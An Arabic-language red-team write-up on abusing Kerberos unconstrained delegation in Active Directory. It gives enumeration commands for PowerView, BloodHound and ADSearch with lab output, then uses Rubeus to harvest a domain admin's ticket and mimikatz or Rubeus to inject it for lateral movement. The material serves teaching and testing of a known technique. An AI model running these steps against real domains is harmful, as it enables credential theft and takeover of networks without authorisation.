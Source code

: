 ```yaml
---
title:  Unconstrained Delegation
date: 2022-09-17 22:42:00 +0300
categories: [Writeup, PostExploit]
tags: [Active Directory]     # TAG names should always be lowercase
---
```



 



## Attack
&#x202b;
بسم الله الرحمن الرحيم.
سنتطرق اليوم بمشيئة الله لشرح الـ `unconstrained delegation` 
&#x202b;
### Unconstrained delegation
&#x202b;
الدلقيشن يسمح لمستخدم أو خدمة للعمل نيابةً عن سيرفس اكاونت او مستخدم أخر  

&#x202b;
بعدما تعرفنا على الدلقيشن بطريقة مبسطه سنتعمق الان في تفاصيل اكثر لنفهم طريقة عمل هذه الهجمة
إذا كان الـ `unconstrained delegation` مفعل في جهاز الكمبيوتر الـ `KDC` سيكون محتوي على الـ `TGT` لليوزر داخل الـ `TGS` 
وبهذه الحاله سنتفرض أن لدينا خادم ويب يحتاج للوصول لسيرفر قاعدةالبيانات نيابة عن مستخدم اخر، في هذه الحالة خادم الويب
سيستخدم الـ `TGT` لطلب الـ `TGS` بسيرفس اكاونت موجود على سيرفر قاعدةالبيانات.
الجزء المهم لنا كـ `RedTeamers` هو أن `unconstrained delegation` بدورها كخدمة ستقوم بتخزين الـ `TGT` الخاصة بالمستخدم في حال دخوله لجهاز مفعله لديه هذه الخدمه.  

&#x202b;
وللتوضيح أكثر سنستعرض مثال بسيط:
فلنفترض أن الدومين أدمن دخل لجهاز مفعله لديه هذه الخدمة وقام بالدخول على أي خدمة كانت في جهاز `A` على سبيل المثال، في هذه الحاله ستكون الـ `TGT` الخاصة بحساب الدومين أدمن مخزنه في ميموري الجهاز `A`، ونستطيع نحن كـ `RedTemaer` إستغلال هذه الخدمة وإستخراج ال `TGT` الخاصة بالدومين أدمن او اي يوزر نقوم بإستهدافه.  

&#x202b;
سننتقل الان لشرح يوضح هذا التكنيك بطريقة عملية  


### Enumeration
&#x202b;
عن طريق المودل `PowerView` نستطيع عمل `Enumeration` لمعرفة الدومين كمبيوتر اللتي مفعل فيها هذه الخدمة
```
Get-DomainComputer -UnConstrained
```  
&#x202b;
وأيضًا عن طريق `BloodHoundAd` نستطيع عمل `Enumeration` لمعرفة الدومين كمبيوتر المفعلة فيها هذه الخدمة
```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
```  
&#x202b;
وأيضًا عن طريق `ADSearch.exe` نستطيع عمل `Enumeration` لمعرفة الدومين كمبيوتر المفعلة فيها هذه الخدمة
```
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```


&#x202b;
## Exploit
&#x202b;
سنقوم في البداية بعمل `Enumeration`  
```sh
PS C:\Users\0xMaz> cd .\Desktop\
PS C:\Users\0xMaz\Desktop> . .\PowerView.ps1
PS C:\Users\0xMaz\Desktop> Get-DomainComputer -UnConstrained


pwdlastset                    : 5/16/2019 1:10:20 AM
logoncount                    : 512
msds-generationid             : {36, 225, 107, 217...}
serverreferencebl             : CN=Test-DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=0xMaz,D
                                C=local
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=Test-DC1,OU=Domain Controllers,DC=us,DC=0xMaz,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 9/16/2022 9:01:42 PM
name                          : Test-DC1
objectsid                     : S-1-5-21-3965405831-1015596948-2589850225-1000
samaccountname                : Test-DC1$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT
whenchanged                   : 9/17/2022 4:01:42 AM
accountexpires                : NEVER
countrycode                   : 0
operatingsystem               : Windows Server 2016 Standard
instancetype                  : 4
msdfsr-computerreferencebl    : CN=Test-DC1,CN=Topology,CN=Domain System
                                Volume,CN=DFSR-GlobalSettings,CN=System,DC=us,DC=0xMaz,DC=local
objectguid                    : 68412feb-0296-4eeb-8886-ae49b2779f64
operatingsystemversion        : 10.0 (14393)
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=0xMaz,DC=local
dscorepropagationdata         : {2/1/2019 6:23:00 AM, 1/1/1601 12:00:01 AM}
serviceprincipalname          : {ldap/Test-DC1.us.0xMaz.local/DomainDnsZones.us.0xMaz.local,
                                ldap/Test-DC1.us.0xMaz.local/ForestDnsZones.0xMaz.local,
                                Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/Test-DC1.us.0xMaz.local, TERMSRV/Test-DC1...}
usncreated                    : 12293
lastlogon                     : 9/17/2022 3:55:06 AM
badpwdcount                   : 0
cn                            : Test-DC1
useraccountcontrol            : SERVER_TRUST_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_FOR_DELEGATION
whencreated                   : 2/1/2019 6:23:00 AM
primarygroupid                : 516
iscriticalsystemobject        : True
msds-supportedencryptiontypes : 28
usnchanged                    : 648313
ridsetreferences              : CN=RID Set,CN=Test-DC1,OU=Domain Controllers,DC=us,DC=0xMaz,DC=local
dnshostname                   : Test-DC1.us.0xMaz.local

logoncount                    : 372
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=UFC-WEBPROD,OU=Servers,DC=us,DC=0xMaz,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
badpwdcount                   : 0
lastlogontimestamp            : 9/16/2022 9:01:45 PM
objectsid                     : S-1-5-21-3965405831-1015596948-2589850225-1104
samaccountname                : UFC-WEBPROD$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT
countrycode                   : 0
cn                            : UFC-WEBPROD
accountexpires                : NEVER
whenchanged                   : 9/17/2022 4:01:45 AM
instancetype                  : 4
usncreated                    : 12921
objectguid                    : 552cbb64-f3ff-4b35-a9f1-7f68dd07b9a1
operatingsystem               : Windows Server 2016 Standard
operatingsystemversion        : 10.0 (14393)
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=0xMaz,DC=local
dscorepropagationdata         : {2/6/2019 12:46:32 PM, 1/1/1601 12:00:00 AM}
serviceprincipalname          : {TERMSRV/UFC-WEBPROD, TERMSRV/UFC-WebProd.us.0xMaz.local, WSMAN/UFC-WebProd,
                                WSMAN/UFC-WebProd.us.0xMaz.local...}
lastlogon                     : 9/17/2022 11:35:19 AM
iscriticalsystemobject        : False
usnchanged                    : 648319
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_FOR_DELEGATION
whencreated                   : 2/1/2019 6:37:47 AM
primarygroupid                : 515
pwdlastset                    : 12/14/2019 9:26:58 PM
msds-supportedencryptiontypes : 28
name                          : UFC-WEBPROD
dnshostname                   : UFC-WebProd.us.0xMaz.local



PS C:\Users\0xMaz\Desktop>
```  
&#x202b;
وعن طريق الـ `ADSearch`  



![image](https://user-images.githubusercontent.com/54814433/190872429-1a433254-1fdd-4a13-a84a-a3de8f1e0da2.png)  

&#x202b;
سنجد أن الكمبيوترين `SRV-1 , DC-2` مفعل لديهما الـ `Unconstrained Delegation`  

&#x202b;
تنويه: الدومين كنترولر تكون مفعله لديه هذه الخدمة تلقائيًا ولكنها لن تفيدنا لانه إذا وصلنا له فنحن دومين ادمن لانحتاج لهذا التكنيك.  

&#x202b;
أولا سنحتاج للوصول للسيرفر `SRV-1` لتفعيل المونيتور مود عن طريق أداة `Rubeus` وإنتظار الدومين أدمن أو اي يوزر ذو صلاحيات عاليه للدخول عليه، وبما ان هذا السيرفر مفعل عليه الـ `Unconstrained Delegation` فسيقوم بحفظ التذكره`TGT` لاي يوزر يقوم بالدخول عليه او استخدام اي خدمه يقدمها وتحتاج لـ `Kerberos Authentication`  
&#x202b;
وعن طريق هذاالسيرفر ستكون التذكرة محفوظه و نستطيع استخراج الـ `TGT` المحفوظه لهذا المستخدم  
&#x202b;
```
Rubeus.exe monitor /interval:10
```  
![image](https://user-images.githubusercontent.com/54814433/190873114-1f4bdba2-0e6e-40e0-9724-121b55d30312.png)
&#x202b;  
في هذه الحالة الاداة ستقوم بسحب جميع التذاكر المحفوظه وعمل مونيتور للتذاكر القادمة في حال دخول أي مستخدم جديد مثلما شرحنا سابقًا.  

![image](https://user-images.githubusercontent.com/54814433/190873503-3c67747e-14c7-4430-b547-3d72a49d3933.png)
وفي هذه الحاله حصلنا على التذكرة للدومين ادمن، لانه قام بالدخول للسيرفر.  

&#x202b;
وفي هذه الحاله سنقوم بأخذ التذكره وتحويلها وإضافتها للجهاز الخاص بنا.  
```
$ on Linux
$ echo 'base64' | base64 --decode > ticket.kirbi
```
```
$ On Windows
$ [System.IO.File]::WriteAllBytes("C:/Users/User/Ticket.kirbi", [System.Convert]::FromBase64String("base64"))
```  

&#x202b;
وسنقوم الان بحقن التذكره في الفوت هولد مشين ونستطيع تنفيذ `Remote-command` على الاجهزه المصرح للمستخدم صاحب التذكره عمل ذلك عليها.  

&#x202b;
ونستطيع حقن التذكره عن طريق ادوات كثيره ومن ضمنها:  

&#x202b;
 mimikatz.exe
```
> mimikatz.exe
# privilege::debug
# kerberos::ptt C:/Users/User/Ticket.kirbi
...
File: 'C:/Users/User/Ticket.kirbi': OK
...
> klist | findstr "Cached"
...
Cached Tickets: (1)
...
# exit
Bye!
```
Rubeus.exe
```
Rubeus.exe ptt /ticket:C:/Users/User/Ticket.kirbi
```  

&#x202b;
وبهذه الحاله سنكون انتقلنا من الفوتهولد مشين لأجهزه أخرى.  
تنويه: مدة التذكرة 10 ساعات
&#x202b;
